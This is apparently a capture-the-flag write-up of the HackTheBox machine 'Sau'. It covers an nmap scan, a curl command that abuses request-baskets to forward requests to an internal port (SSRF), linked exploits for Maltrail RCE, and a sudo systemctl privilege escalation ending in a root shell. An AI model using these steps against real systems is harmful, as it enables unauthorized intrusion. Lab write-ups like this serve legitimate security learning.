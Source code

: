 ```yaml
---
categories: [HackTheBox]
tags: [PrivEsc, Public Exploit, SSRF]
image:
  path: /Vulnhub-Files/img/Sau/front.png
  alt: https://www.hackthebox.com/achievement/machine/595651/551
---
```



![Untitled](/Vulnhub-Files/img/Sau/Untitled.png)

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Sau]
└─$ sudo nmap -sC -sV -T4 10.10.11.224 -oN Nmap_results.txt
[sudo] password for kali: 
Starting Nmap 7.94 ( https:/nmap.org ) at 2023-08-29 12:45 IST
Nmap scan report for 10.10.11.224
Host is up (0.17s latency).
Not shown: 997 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Tue, 29 Aug 2023 07:17:19 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Tue, 29 Aug 2023 07:16:43 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Tue, 29 Aug 2023 07:16:45 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data.
```
{: .nolineno}

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Sau/Untitled%201.png)

After clicking on create button →

![Untitled](/Vulnhub-Files/img/Sau/Untitled%202.png)

```bash
Basket 'nxhtzfm' is successfully created!

Your token is: 8fREKdr_kiHy5fuFJce3w5JPrnQ5zlnnhzTVJ4CUo62O
```
{: .nolineno}

I got a dashboard which keeps log of the URL activity →

![Untitled](/Vulnhub-Files/img/Sau/Untitled%203.png)

Through web recon I got to know about the vulberability that this site is affected to so I got this →

[Exploit](https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3/)

Now I set the options and all the Settings options through curl with the new directory named as `shell` →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Sau]
└─$ curl --location 'http:/10.10.11.224:55555/api/baskets/shell' --header 'Content-Type: application/json' --data '{"forward_url": "http:/127.0.0.1:80/", "proxy_response": true, "insecure_tls": false, "expand_path": true, "capacity": 250}'
{"token":"ZLVtatdn0yuct7Sy8iOpI9t0VryjYQL68vTkd-TX8HMT"}
```
{: .nolineno}

I accessed the `http:/10.10.11.224:55555/api/baskets/shell`  page I got this 

![Untitled](/Vulnhub-Files/img/Sau/Untitled%204.png)

I also tried to set these below options on curl →

![Untitled](/Vulnhub-Files/img/Sau/Untitled%205.png)

Now Lets access the url directly `http:/10.10.11.224:55555/shell`and I got this →

![Untitled](/Vulnhub-Files/img/Sau/Untitled%206.png)

Now with some web recon I find out that this `Mailtrail (v0.53)` is vulnerable and can give me RCE so I used this exploit →

[Exploit](https://www.exploit-db.com/exploits/51676/)

![Untitled](/Vulnhub-Files/img/Sau/Untitled%207.png)

I got the shell now its time for dig in into the shell for root access →

```bash
puma@sau:~$ ls -al
ls -al
total 36
drwxr-xr-x 4 puma puma 4096 Aug 29 05:24 .
drwxr-xr-x 3 root root 4096 Apr 15 09:17 ..
lrwxrwxrwx 1 root root    9 Apr 14 17:46 .bash_history -> /dev/null
-rw-r--r-- 1 puma puma  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 puma puma 3771 Feb 25  2020 .bashrc
drwx------ 2 puma puma 4096 Apr 15 09:42 .cache
drwx------ 3 puma puma 4096 Apr 15 09:51 .gnupg
-rw-r--r-- 1 puma puma  807 Feb 25  2020 .profile
-rw------- 1 puma puma  556 Aug 29 05:24 .viminfo
lrwxrwxrwx 1 puma puma    9 Apr 15 09:41 .wget-hsts -> /dev/null
-rw-r----- 1 root puma   33 Aug 29 04:08 user.txt
puma@sau:~$ cat user.txt
cat user.txt
9d18067025cba80f61b19105560f6662
puma@sau:~$ 
```
{: .nolineno}

Now lets see how this user can get me to root →

```bash
puma@sau:~$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
puma@sau:~$
```
{: .nolineno}

Now from gtfobin site I got the payload that gona get me root →

![Untitled](/Vulnhub-Files/img/Sau/Untitled%208.png)

Now  I used it and got this →

```bash
puma@sau:~$ sudo /usr/bin/systemctl status trail.service
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Sau/Untitled%209.png)

```bash
# cd /root
# ls -al
total 44
drwx------  6 root root 4096 Aug 29 09:58 .
drwxr-xr-x 20 root root 4096 Jun 19 09:41 ..
lrwxrwxrwx  1 root root    9 Apr 15 09:35 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  3 root root 4096 Jun 19 09:41 .cache
-rw-------  1 root root   31 Aug 29 09:58 .lesshst
drwxr-xr-x  3 root root 4096 Jun  8 11:03 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
drwx------  2 root root 4096 Apr 14 17:38 .ssh
-rw-r--r--  1 root root   39 Jun  8 11:05 .vimrc
lrwxrwxrwx  1 root root    9 Apr 15 09:35 .wget-hsts -> /dev/null
drwxr-xr-x  4 root root 4096 Jun 19 09:41 go
-rw-r-----  1 root root   33 Aug 29 04:08 root.txt
#
# cat root.txt
2754674b979d814022ef84fa0cdd965b
#
```